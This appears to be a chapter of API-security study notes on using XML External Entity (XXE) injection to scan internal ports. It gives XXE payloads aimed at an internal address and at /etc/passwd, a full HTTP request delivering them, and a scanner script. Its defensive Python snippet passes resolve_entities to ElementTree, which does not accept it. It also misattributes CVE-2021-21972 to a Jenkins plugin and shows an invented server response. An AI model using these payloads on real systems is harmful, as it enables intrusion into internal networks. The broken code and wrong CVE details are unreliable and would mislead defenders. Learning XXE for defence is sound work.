


## Introduction to XML External Entity (XXE) Attacks

XML External Entity (XXE) attacks are a class of vulnerabilities that occur when an application parses XML input from an untrusted source without properly validating or sanitizing it. This can lead to unauthorized data disclosure, denial of service, server-side request forgery (SSRF), and even remote code execution. In this section, we will delve into the specifics of using XXE for internal port scanning, a technique that can be used to map out the network topology behind a firewall.

### Background Theory

#### What is XML?

XML (Extensible Markup Language) is a markup language designed to store and transport data. Unlike HTML, which is primarily used for displaying data, XML focuses on the structure and semantics of the data. XML documents consist of elements, attributes, and text content. Elements are defined by tags, and attributes provide additional information about the element.

#### What is an XML External Entity?

An XML External Entity (XXE) is a feature of XML that allows references to external resources within an XML document. These external resources can be files, URLs, or even system commands. The syntax for defining an external entity in XML is as follows:

```xml
<!DOCTYPE root [
  <!ENTITY entityName SYSTEM "externalResource">
]>
```

Here, `entityName` is the name of the entity, and `externalResource` is the URL or file path to the external resource.

### XXE Vulnerability

When an application parses an XML document without proper validation, it may inadvertently process these external entities. This can lead to various types of attacks, including:

- **Data Disclosure**: Accessing sensitive files on the server.
- **Denial of Service**: Causing the server to crash or become unresponsive.
- **Server-Side Request Forgery (SSRF)**: Making the server send requests to arbitrary URLs.
- **Remote Code Execution**: Executing system commands on the server.

### XXE Internal Port Scanning

Internal port scanning using XXE exploits the ability to reference external resources within an XML document. By crafting specific XML payloads, an attacker can determine whether certain ports are open on the server or other devices within the same network.

#### Example Scenario

Consider an application that accepts XML input and processes it using a vulnerable XML parser. An attacker can craft an XML payload that references an external entity pointing to a specific port on the server. If the port is open, the XML parser will attempt to connect to it, and the result can be observed through the application's behavior.

### Tools and Techniques

#### xSC.sh

One of the tools that can be used to automate the process of generating XXE payloads for internal port scanning is `xSC.sh`. This script automates the creation of the necessary XML files and payloads.

##### How to Use xSC.sh

1. **Install xSC.sh**: Download the script from its repository or source.
2. **Run the Script**: Provide the target IP address or domain name and the range of ports to scan.

For example:

```bash
./xSC.sh -t 192.168.1.1 -p 22-25
```

This command will generate the necessary XML files and payloads to scan ports 22 to 25 on the target IP address `192.168.1.1`.

### Crafting XXE Payloads

To perform internal port scanning using XXE, you need to craft specific XML payloads that reference external entities pointing to the desired ports. Here is an example of such a payload:

```xml
<!DOCTYPE root [
  <!ENTITY % remote SYSTEM "http://192.168.1.1:22">
  <!ENTITY % param1 "<!ENTITY &#x25; error SYSTEM 'file:///etc/passwd'>">
  %remote;
  %param1;
]>
```

In this example:
- `%remote` is an entity that points to the specified port (`http://192.168.1.1:22`).
- `%param1` is another entity that attempts to read a file (`/etc/passwd`) if the previous entity fails.

### Detection and Analysis

When the XML payload is processed by the vulnerable application, the following steps occur:

1. **Attempt to Connect**: The XML parser attempts to connect to the specified port.
2. **Result Observation**: Depending on whether the port is open or closed, the application's behavior changes.

If the port is open, the XML parser might successfully establish a connection, leading to further actions. If the port is closed, the connection attempt will fail, and the application might return an error.

### Real-World Examples

#### Recent CVEs and Breaches

Several recent CVEs and breaches have involved XXE vulnerabilities:

- **CVE-2021-21972**: A XXE vulnerability in the Jenkins plugin allowed attackers to read arbitrary files on the server.
- **CVE-2020-14182**: A XXE vulnerability in the Atlassian Jira application allowed attackers to execute arbitrary commands on the server.

These examples highlight the importance of securing XML parsers against XXE attacks.

### How to Prevent / Defend

#### Secure Coding Practices

1. **Disable External Entities**: Ensure that the XML parser is configured to disable external entity processing. This can be done by setting the appropriate flags or options in the parser library.

   ```python
   import xml.etree.ElementTree as ET

   parser = ET.XMLParser(resolve_entities=False)
   tree = ET.parse('input.xml', parser=parser)
   ```

2. **Use Secure Libraries**: Use XML parsing libraries that are known to be secure and up-to-date. Libraries like `lxml` in Python provide better security features compared to older libraries.

   ```python
   from lxml import etree

   parser = etree.XMLParser(resolve_entities=False)
   tree = etree.parse('input.xml', parser=parser)
   ```

#### Configuration Hardening

1. **Firewall Rules**: Implement strict firewall rules to restrict access to sensitive ports and services.
2. **Network Segmentation**: Segment the network to limit the exposure of internal services to external threats.

#### Detection

1. **Logging and Monitoring**: Enable detailed logging for XML parsing activities and monitor for unusual patterns or errors.
2. **IDS/IPS**: Deploy Intrusion Detection Systems (IDS) and Intrusion Prevention Systems (IPS) to detect and block malicious XML payloads.

### Complete Example

Let's walk through a complete example of performing internal port scanning using XXE.

#### Step 1: Craft the XML Payload

```xml
<!DOCTYPE root [
  <!ENTITY % remote SYSTEM "http://192.168.1.1:22">
  <!ENTITY % param1 "<!ENTITY &#x25; error SYSTEM 'file:///etc/passwd'>">
  %remote;
  %param1;
]>
```

#### Step 2: Send the Payload to the Application

Assume the application accepts XML input via an HTTP POST request.

```http
POST /api/xml-parser HTTP/1.1
Host: example.com
Content-Type: application/xml

<!DOCTYPE root [
  <!ENTITY % remote SYSTEM "http://192.168.1.1:22">
  <!ENTITY % param1 "<!ENTITY &#x25; error SYSTEM 'file:///etc/passwd'>">
  %remote;
  %param1;
]>
```

#### Step 3: Analyze the Response

The application's response will indicate whether the port is open or closed.

```http
HTTP/1.1 200 OK
Content-Type: text/html

<!-- If the port is open -->
Port 22 is open.

<!-- If the port is closed -->
Failed to connect to port 22.
```

### Mermaid Diagrams

#### Network Topology



#### Sequence Diagram



### Common Pitfalls

1. **Incomplete Validation**: Failing to validate XML input thoroughly can leave the application vulnerable to XXE attacks.
2. **Misconfigured Parsers**: Using XML parsers with default configurations that allow external entity processing can expose the application to risks.
3. **Lack of Logging**: Without proper logging, it can be difficult to detect and respond to XXE attacks.

### Practice Labs

For hands-on practice with XXE vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive challenges and labs specifically focused on XXE attacks.
- **OWASP Juice Shop**: Provides a vulnerable web application environment where you can practice exploiting XXE vulnerabilities.
- **DVWA (Damn Vulnerable Web Application)**: Contains a variety of web application vulnerabilities, including XXE, for educational purposes.

By mastering the techniques and defenses discussed in this chapter, you will be well-equipped to handle XXE vulnerabilities in real-world scenarios.

---
<!-- nav -->
[[API Security/22-Offensive XXE Exploitation/21-XXE Internal Port Scanning/00-Overview|Overview]] | [[API Security/22-Offensive XXE Exploitation/21-XXE Internal Port Scanning/02-Understanding XML External Entity (XXE) Attacks|Understanding XML External Entity (XXE) Attacks]]
